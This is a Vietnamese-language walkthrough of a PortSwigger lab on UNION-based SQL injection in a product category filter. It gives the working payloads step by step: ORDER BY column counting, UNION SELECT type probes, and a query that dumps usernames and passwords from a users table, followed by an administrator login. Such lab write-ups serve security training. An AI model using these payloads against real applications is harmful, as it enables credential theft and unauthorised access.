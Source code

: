 
![[Pasted image 20220617095400.png]](https://github.com/LanPhuong07/PortSwigger/blob/main/pic/Pasted%20image%2020220617095400.png)

---------------

**MÔ TẢ**

Lab này chứa lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm. Kết quả từ truy vấn được trả về trong phản hồi của ứng dụng, vì vậy bạn có thể sử dụng UNION để tấn công truy xuất dữ liệu từ các bảng khác. Để thực hiện một cuộc tấn công như vậy, bạn cần kết hợp một số kỹ thuật bạn đã học trong các phòng thí nghiệm trước đó.

Cơ sở dữ liệu chứa một bảng khác được gọi là ``user``, với các cột được gọi là ``username`` và ``password``.

Để giải quyết lab, cần thực hiện một cuộc tấn công SQL injection UNION để truy xuất tất cả usernames và passwords, đồng thời sử dụng thông tin để đăng nhập với tư cách ``administrartor``.

**GIẢI QUYẾT**

<h2>1) Xác định số cột</h2> 

'order by 1--
'order by 2--
'order by 3-- -> 500

-> Số cột của bảng là 2

<h2>2) Xác định kiểu dữ liệu của các cột</h2>

chọn a, b từ các sản phẩm mà ``?category=Lifestyle'``

'UNION select 'a', NULL--
'UNION select 'a ',' b '--
-> cả hai cột đều thuộc kiểu dữ liệu string
![[Pasted image 20220617100445.png]](https://github.com/LanPhuong07/PortSwigger/blob/main/pic/Pasted%20image%2020220617100445.png)

' UNION select username, password from users--
![[Pasted image 20220617100526.png]](https://github.com/LanPhuong07/PortSwigger/blob/main/pic/Pasted%20image%2020220617100526.png)

Đăng nhập thành công!
![[Pasted image 20220617100635.png]](https://github.com/LanPhuong07/PortSwigger/blob/main/pic/Pasted%20image%2020220617100635.png)